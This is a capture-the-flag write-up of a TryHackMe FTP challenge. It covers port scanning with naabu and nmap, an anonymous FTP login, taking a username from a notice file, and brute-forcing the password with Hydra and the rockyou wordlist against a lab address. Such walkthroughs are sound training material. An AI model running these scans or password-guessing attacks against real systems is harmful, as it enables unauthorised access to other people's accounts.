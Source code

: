 #  TryHackMe FTP Challenge - Writeup

---

## 1.  Enumerate Open Ports with Naabu
```bash
naabu -host 10.10.28.125
```

 Result:
```
10.10.28.125:80
10.10.28.125:21
10.10.28.125:22
```

---

## 2.  Scan Services Using Nmap
```bash
nmap -sS -Pn -sV -p 21 10.10.28.125
```

 Output:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
Service Info: Host: Welcome
```

---

## 3.  Try Accessing FTP as Anonymous
```bash
ftp 10.10.28.125
```

Enter `anonymous` as the username and press enter for password.  
 Login successful without password.

![FTP Login](images/l1.png)

---

## 4.  List Files and Read FTP Message
```bash
ls
cat PUBLIC_NOTICE.txt
```

![FTP Directory](images/l2.png)

 Message Content:
```
===================================
MESSAGE FROM SYSTEM ADMINISTRATORS
===================================

Hello,

I hope everyone is aware that the
FTP server will not be available 
over the weekend- we will be 
carrying out routine system 
maintenance. Backups will be
made to my account so I reccomend
encrypting any sensitive data.

Cheers,
Mike 
```

 Extracted Username: `Mike`

---

## 5.  Brute Force FTP Password using Hydra
```bash
hydra -l Mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.28.125 ftp
```

![Hydra Brute Force](images/l3.png)



---

## 6.  Get the Flag

Successfully logged in using `Mike`'s credentials.  
Flag retrieved from FTP!

![Flag](images/f1.png)
